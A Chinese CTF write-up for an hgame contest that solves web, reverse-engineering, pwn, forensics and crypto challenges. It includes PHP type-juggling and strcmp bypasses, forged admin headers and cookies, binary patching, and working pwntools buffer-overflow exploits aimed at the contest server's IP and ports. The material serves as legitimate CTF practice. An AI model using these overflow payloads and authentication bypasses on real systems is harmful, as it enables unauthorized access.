





{ Web }
Are you from Europe? [100]
打开页面试着抽了一下，发现抽不到 SSR 就直奔源码而去了。在页面最后发现一段很可疑的 eval()，扔到 Sublime 里用插件格式化一下，得到 Flag：hgame{Th3_Ch0seN_0nE!}
special number [100]
读源码：先拿到 GET 的参数 key，然后匹配一下正则，过了之后要使 json_decode() 的返回值与未知字符串相等。结合正则的提示：必须包含数字，可联想到 0 == "xxx" 为真，所以可构造 ?key=0e00000 得到 Flag：hgame{pHp_w34k_typing_s000_e4sy}。
can u find me? [50]
根据提示 “only robot know where is the Flag”，直接访问 /robots.txt，发现一行 Disallow: /f1aaaaaaaag.php，跟到该文件，并根据提示把 cookies 改为 user: admin，成功获取 Flag：hgame{78e01ee77a39ef4e}
tell me what you want [100]
打开页面，填入 flag 并提交，提示需要用 POST。于是 F12 把 method 改为 POST 后重新提交，并打开 Burp Suite 把这个 HTTP 请求复制一下。之后根据提示依次添加/修改以下 HTTP 头即可得到 Flag：hgame{For9e_hTTp_iS_N0T_HArd}
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 Icefox/57.0
Referer: www.google.com
Cookie: isadmin=1
我们不一样 [100]
读代码，发现要使 $str1 != $str2 与 strcmp($str1, $str2) == 0 同时为真。翻阅文档发现 strcmp() 函数在遇到数组时会返回 NULL，则可构造 POST 参数 str1[]=1&str2[]=2，成功获取 Flag：hgame{g3t_f14g_is_so0000_ez}
{ Re }
re0 [50]
扔进 IDA 发现函数名很让人迷茫，默默搜索了一下字符串，于是得到 Flag：hctf{F1r5t_St5p_Ls_Ea5y}
baby_crack [100]

先看一下如何“Good Job”：
让 array 跟 goal 一样即可，长度为 20 Bytes。然后依次把上边那三个函数扣出来，整理成如下代码：
void func1(uint8_t array[], uint8_t buffer[]) {
for (int i = 0; i < 20; ++i) {
int mod = i & 3;
// (i >> 32) >> 30 始终为 0
if (mod == 0) {
array[i] = 2 * buffer[i];
// buffer 是输入的字符，而可见的 ASCII 字符里最高位均为 0
// 所以 buffer[i] >> 7 始终为 0
} else {
array[i] = (buffer[i] << 2*mod) | (buffer[i] >> 8 - 2*mod);
// 将 buffer 高低位按组交换
}
}
}
void func2(uint8_t array[]) {
int v1 = 0, v2 = 1, v3 = 2;
while (v2 <= 20) {
uint8_t temp = array[v1];
array[v1] = array[v2];
array[v2] = temp;
// 将 array[v1] 与 array[v2] 互换
v1 = v2;
v2 += v3++;
}
}
void func3(uint8_t array[]) {
for (int i = 0; i < 20; ++i) {
array[i] = table[array[i]]
}
}
简要描述一下：先一番操作从 buffer 得到 array，然后循环一下把 array 里的项换位，最后查表把 array 里的每个特定值换成对应的值。
读懂之后，一步步反过来操作即可从 array（也就是 goal）还原到 buffer。描述起来比较长，直接上代码吧：
#include <stdio.h>
#include <inttypes.h>
uint8_t buffer[21] = {0};
uint8_t array[] = {
0xA6, 0x4E, 0x05, 0xA2, 0xB6, 0x08, 0xA2, 0xCE, 0x8C, 0xEE, 0x20, 0xC2,
0x98, 0xA0, 0xD0, 0xCD, 0x23, 0xA6, 0x6A, 0x82
};
uint8_t trans_table[] = {
0x11, 0xBF, 0xBA, 0x0F, 0xD5, 0xCC, 0xBC, 0x1E, 0x19, 0x01, 0x87, 0x1B,
0x96, 0xC3, 0x86, 0x1A, 0x7E, 0x6B, 0x5A, 0x8D, 0xFB, 0xC2, 0x8B, 0xB3,
0xB1, 0xDD, 0xEF, 0x0A, 0x4B, 0xF8, 0x55, 0x26, 0x76, 0xAB, 0xC1, 0x64,
0x17, 0xC9, 0xAF, 0x61, 0x67, 0x4A, 0xCA, 0x12, 0x24, 0xE1, 0xAE, 0x50,
0x3A, 0x70, 0x37, 0xED, 0xE0, 0x77, 0xB7, 0x2E, 0xA1, 0x2D, 0x32, 0x7B,
0x89, 0xCF, 0xF0, 0x94, 0x21, 0x65, 0x0B, 0x3F, 0x7D, 0x29, 0x3B, 0x05,
0x51, 0xE7, 0x81, 0x6E, 0x33, 0xC6, 0xD7, 0xAC, 0x3C, 0x9A, 0x22, 0xDC,
0x7A, 0x08, 0x6A, 0x97, 0xF1, 0x5F, 0x8E, 0x62, 0x6F, 0x13, 0x8A, 0x82,
0x8C, 0x2A, 0x49, 0x39, 0x18, 0x68, 0xD0, 0x83, 0xB4, 0x42, 0x36, 0x71,
0x0C, 0x57, 0x10, 0xF3, 0x28, 0xD4, 0x34, 0x0E, 0xE4, 0xFF, 0x06, 0xAD,
0x5C, 0xFC, 0xDB, 0xDE, 0xDA, 0x9F, 0xEA, 0x35, 0x5E, 0x78, 0x52, 0xD9,
0x4F, 0x6D, 0xBB, 0xA8, 0xB0, 0x15, 0x43, 0x90, 0x25, 0xA6, 0x54, 0xFE,
0x0D, 0xEB, 0xA9, 0xFD, 0xE9, 0x5D, 0x16, 0xCB, 0x2F, 0x4E, 0xBD, 0xC5,
0x09, 0x46, 0xF7, 0xC0, 0x1F, 0x59, 0xD3, 0x02, 0x23, 0x9D, 0x60, 0x04,
0x84, 0xF6, 0xA4, 0x1D, 0x31, 0x4C, 0xC8, 0x9B, 0xC7, 0xDF, 0x66, 0x2C,
0xEC, 0x79, 0x73, 0x30, 0x69, 0x63, 0x95, 0xD6, 0xBE, 0x44, 0xE8, 0xA5,
0xF2, 0x99, 0xD8, 0x38, 0xA0, 0xE3, 0x8F, 0xD2, 0x53, 0x3D, 0x56, 0x92,
0x72, 0xFA, 0xB8, 0xA7, 0xCD, 0xEE, 0x93, 0x85, 0x6C, 0x7F, 0xAA, 0xB2,
0x47, 0xCE, 0x80, 0x20, 0x1C, 0x7C, 0x07, 0xE2, 0xB9, 0x91, 0x45, 0x74,
0x98, 0xF5, 0x3E, 0x03, 0xC4, 0x00, 0x41, 0x00, 0x2B, 0x48, 0x27, 0xE6,
0x5B, 0xF4, 0x9C, 0x88, 0x75, 0xA2, 0xB6, 0x14, 0xD1, 0xE5, 0x4D, 0x40,
0xF9, 0x9E, 0x58, 0xA3
};
int main() {
// func3_reserve():
for (int i = 0; i < 20; ++i)
for (int j = 0; j < 256; ++j)
if (trans_table[j] == array[i]) {
array[i] = j;
// 查表还原出原来的值
break;
// 有坑，不 break 的话会拿到错误的下标
}
// func2_reverse():
int v1 = 15, v2 = 21, v3 = 7;
// 推一下就能知道上边这些最终值，然后逆着回去就行
while (v2 > 1) {
v2 -= --v3;
v1 = v2 - (v3 - 1);
// 让 v1 成为下一轮的 v2，也就是原来 v1 = v2 的逆操作
uint8_t temp = array[v1];
array[v1] = array[v2];
array[v2] = temp;
}
//func1_reserve():
for (int i = 0; i < 20; ++i) {
int mod = i & 3;
if (mod == 0) {
buffer[i] = array[i] / 2;
// 这里不会得到浮点数的，array[i] 肯定是偶数
} else {
buffer[i] = (array[i] >> 2*mod) | (array[i] << 8 - 2*mod);
}
}
printf("%s\n", buffer);
}
Flag：hctf{U_g0t_Tr1foRce}
nop_pop [100]
第一次遇到文件里没有 Flag 的题，迷茫……了解到我需要做什么之后，先打开该程序，弹出两个窗口，我需要把背景图去掉，观察发现该图窗口名为 pop team epic。遂丢进 OllyDbg，搜索定位到该字符串：

下断点后执行到该处，发现先后调用了 CreateWindowExW()、ShowWindow() 跟 UpdateWindow()，那只要把 ShowWindow() 给 nop 掉即可。栈里多出来的数据没有影响，也不会让 UpdateWindow() 出现没有操作对象的情况：

继续将代码读下去，发现有一小段不会执行的代码：

将跳转条件反转即可：jnz -> jz，保存后发给客服获得 Flag：hctf{Far5we1L_G0od_Cr4cker}
sc2_player [100]
不带符号让人迷茫，搜索字符串，通过“Input your flag”的 xref 找到了主函数：
其中，if 的判断条件明显是判断上边一系列运算的正确与否，跟进去：

先继续跟进子函数：
读完发现大概就是 !strcmp()，结合 check() 那几个按位与，可以知道，只有 a1, a2, a3, a4 与 mask2 相对应的部分完全相同，check() 才会返回真。
然后层层深入一下 f1() 函数。经过整理，其作用相当于下面的伪代码：
function f1(buffer, mask, loc, id) {
for (int i=0; i<7; ++i)
loc[i] = mask[i + 7*id] ^ (i + 35)
for (int i=0; i<7; ++i)
mask[i] = mask[i + 7*id] ^ 0x34
for (int i=0; i<7; ++i)
loc[i] = buffer[i + 7*id] ^ (i + 7*id) ^ id;
}
因为最终拿来比对的是 loc 们，只要跟踪好 loc 的变化即可：第一个循环给 loc 做的改变都被第三个循环给覆盖了，而第三个循环对 loc 的改变只与 buffer 有关，第二个循环与 loc 一点关系都没有。可以发现，loc 的最终内容可直接由 buffer 得出，mask 什么的都可以统统抛弃。
而传给 check() 的 mask2 未曾被改变过，只被拿来比对。借由 mask2 的数据，可以知道所有 loc 的最终数据，并通过上边的式子从 loc 反推 buffer 即可。Flag：hctf{M4y_th5_iDa_gu1de_thee}，最终代码如下：
#include <stdio.h>
#include <inttypes.h>
uint8_t buffer[5][7] = {0}; // 多一行拿来放空字符 =。=
uint8_t loc[4][7] = {
0x68, 0x62, 0x76, 0x65, 0x7F, 0x48, 0x32,
0x7F, 0x56, 0x7C, 0x63, 0x3F, 0x52, 0x65,
0x48, 0x6C, 0x4D, 0x74, 0x65, 0x20, 0x72,
0x73, 0x4A, 0x60, 0x73, 0x7F, 0x7C, 0x65,
}; // 这个就是 mask2 的数据
int main() {
// f1s_reserve():
for (int i=0; i<4; ++i)
for (int j=6; j>=0; --j)
buffer[i][j] = loc[i][j] ^ ((j + 7*i) ^ i);
printf("%s", buffer);
}
{ Pwn }
guess_number [50]
先手动 nc 一下，发现是要猜数字。既然是要猜数字，猜想可以通过随机数种子拿到随机的数字。先在 IDA 里 F5 拿到 C 代码：

种子的播种应该在 init() 函数里，跟进去：

发现用的是系统提供的 /dev/urandom，无法操作，放弃挣扎。回到 main() 里继续读代码，没有发现问题，继续跟进 guess_num() 函数：

第九行用 scanf("%s") 的方式读入，敲定此处有溢出的风险。只要成功将 goal_random_num 覆盖即可，查看该函数的栈空间：

发现 goal_random_num 在相对 buffer 的高地址处，说明此方法可行。构造 payload：python3 -c "print('0'*276+'\x00\x00\x00\x00\n')" | nc 111.230.149.72 10002，即可成功获得 Flag：hgame{S0unds_L1ke_U_KN0wn_h0w_st4ck_works}
flag_server [50]
(该题初版可根据随机数种子不够随机(timestamp)的漏洞得到生成的随机数，下边是根据溢出所做的题解)

读代码：先初始化随机数生成器，没有搞头，继续：输入长度 length，去除过长 length，防止溢出。然后通过 read_n() 读入指定长度的字符，遇到回车或长度已满的时候结束读入。如果要拿到 Flag，就必须使 is_admin 为真。
这时候有两条路，一条是走 username == "admin" 并猜到随机数。但是随机数种子拿不到，在生成之后、判断之前也无法覆盖掉这个数：

所以考虑另外一条路：直接在前边将 is_admin 覆盖成为真。该题有三处输入，scanf("%u" 与 "%d") 都无法覆盖到其他地方的数据，只剩 read_n() 有可能。进去之后仔细阅读代码：

联系之前“loading”的 hint，发现没有考虑 i 为负数的情况，而且正好可以通过 i <= 63 的限制。手动 nc 输入 -1 验证一下，发现可以成功覆盖到 is_admin，所以可以构造 payload：
from pwn import *
conn = remote('111.230.149.72', 10001)
conn.recvuntil('length: ', drop=True)
conn.send('-1\n')
conn.recvuntil('username?', drop=True)
conn.send('@' * 68 + '\n')
# 让 is_admin 非零即可
conn.interactive()
即可成功获取 Flag：hgame{Be_c4r3fu1_wHile_u5ing_1nt_And_unsigned_1nt}
zazahui [50]

main() 函数就几行代码，先设置无缓冲，然后依次调用两个函数。先跟进第一个函数：

此函数把 ad 和 Flag 的内容读入到 .bss 段特定地址，那看来待会要修改某个指针的值以指向放在内存里的 Flag。再看一下第二个函数：

念 100 次是没用的←_←读下去，发现只有一处 read_n() 可供输入。该函数内容跟上题一致，就是已经限定了最大长度为 188。本以为这唯一的入口没法溢出了，不过在查看栈空间时发现，188 已经超过了 buffer 实际所占有的长度 176：

那么只要将 ptr_ad 的值给覆盖成 .bss 里储存 Flag 的地址即可。构造 payload 如下：
from pwn import *
conn = remote('111.230.149.72', 10003)
conn.recvuntil('> ', drop=True)
conn.send('@' * 176 + p32(0x0804a060) + p32(100) + '\n')
# p32(100) 是为了让 times != 0，否则无法获得 Flag。
conn.interactive()
Flag：hgame{y0u_c4n_4lso_s3nd_unprint4ble_ch4r}
{ Misc }
白菜1 [50]
先丢到 binwalk 跑一番：

刚开始以为这个 zlib 有猫腻，谷歌后发现是 PNG 的正常组成部分，初步排除图种。所以我就把图片拖进 Stegsolve 继续分(瞎)析(试)。谷歌了常见隐写术之后，在 Row, LSB First, R0 G0 B0 参数下看到了 ZIP 文件头，Save Bin 并打开生成的压缩包，成功拿到 Flag：hgame{4246a2158c280cdd1e8c18c57e96095f}
白菜2 [50]
binwalk 显示后边还有个 zip，用 binwalk -eM misc2.jpg 分离出文件后，得到 Flag：hgame{af2ab981a021e3def22646407cee7bdc}
pcap1 [50]
将该文件用 Wireshark 打开，搜索字符串“flag”，发现一个 GET 请求：
在下边的 Response 里将 gzip 解开即可得到 Flag：hgame{bfebcf95972871907c89893aa3096ec6}
{ Crypto }
easy Caesar [50]
题目很清晰，找到一个解密凯撒的网站(http://tools.matchzones.net/caesar_cipher)，在向下移位 12 字符的时候看到了 hgame{The_qu8ck_br7wn_1x_jUmps_ovEr_a_La9y_dOg}，直接提交发现出错，便根据语义将数字也移一下位，得到最终 Flag：hgame{The_qu1ck_br0wn_4x_jUmps_ovEr_a_La2y_dOg}
Polybius [50]
读完给的链接，把密文整理了一下，发现对应 12345 的可能就是 ADFGX，谷歌之，从 https://zh.wikipedia.org/wiki/ADFGVX%E5%AF%86%E7%A2%BC 拿到对应的字母布局。一个个对照过去，提交后发现不对。……中间省略一大堆不明所以的操作……最后联想到，在那个按照字母顺序的的版本里，I 跟 J 是放一起的（这个“联想”我等了四天才等到= =）。于是我转换了一下 I 跟 J，以及大小写，终于得到最终 Flag：hgame{fritz_nebel_invented_it}（谷歌也刚好有 Fritz Nebel 这个人）
Hill [50]
既然题目把加密方式跟密钥都讲了出来，我就直接找工具了←_←找到这个 http://www.practicalcryptography.com/ciphers/hill-cipher/#javascript-example-of-the-hill-cipher 将密文跟密钥拖进去得到 Flag：hgame{overthehillx}
confusion [100]
一看就觉得是摩尔斯电码，解密得到 MRLTK6KXNVZXQWBSNA2FSU2GGBSW45BSLAZFU6SVJBNDAZSRHU6Q====，发现以四个 = 结尾，怀疑是 base32。再次解密得到 dW5yWmsxX2h4YSF0ent2X2ZzUHZ0fQ==，符合 base64 的特点，又可得到 unrZk1_hxa!tz{v_fsPvt}。初步怀疑是栅栏密码，但是密文有 { } h a 这几个字符，却没有 g m e，怀疑是 rot13，得到 haeMx1_ukn!gm{i_sfCig}。接着用栅栏解密得到最终 Flag：hgame{Mix_1s_fuCking!}
baby step [66]
得到 hint 之后，以 “baby step ctf” 为关键词在谷歌搜到了这个网页：https://ctf-wiki.github.io/ctf-wiki/crypto/asymmetric/discrete_log/discrete_log_intro.html#id8 ，得知此类问题可用 “baby step - giant step” 算法解决。找了几篇介绍如何实现的文章之后，自己写了一段 Py 脚本，直接把字典当 Hash 表，发现极其慢。在群里大佬提示下，去 https://sagecell.sagemath.org/ 跑了一下现学现卖的三行 Sage，跑出第一个数：0x2c7de99911，其中“E9”明显不是可见字符。又经过群里大佬提示，发现了第二个符合要求的数：0x7831333337，所以得到 Flag：x1337
Sage 代码：
a = Mod(0x1111111111, 0x976693344d)
b = Mod(0x7ac21f64ed, 0x976693344d)
bsgs(a, b, (0x2c7de99911 + 1, 0x7f7f7f7f7f))
Python 代码：
ans = hex(0x7831333337)[2:-1]
print(''.join([
chr(int(ans[i:i+2], base=16)) \
for i in range(0, len(ans), 2)
]))